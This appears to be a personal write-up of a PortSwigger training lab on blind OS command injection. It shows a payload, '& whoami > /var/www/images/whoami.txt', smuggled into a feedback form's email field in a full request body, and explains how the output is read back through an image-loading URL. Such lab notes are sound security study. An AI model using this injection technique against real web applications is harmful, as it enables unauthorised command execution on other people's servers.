

# Lab: Blind OS command injection with output redirection
url: https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection

# Overview:
- OS ci vul in the feedback function
- You can use output redirection to capture the output from the command. There is a writable at: 
    /var/www/images/
- You can redirect the output from injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file
- Execute whoami command and retrieve the output to solve

# Analysis:

injected command likely to use:
    & whoami > /var/www/images/whoami.txt &

first, use time delays to check where the injected command would be appended (email field)
then try it out:
csrf=lNtoFOiepi1YtidIp8CzvMIiArbIVKUG&name=test&email=test%40gmail.com & whoami > /var/www/images/whoami.txt # &subject=test&message=test

finally, use GET images request to get whoami.txt's content (peter-vguFOR)

-> 

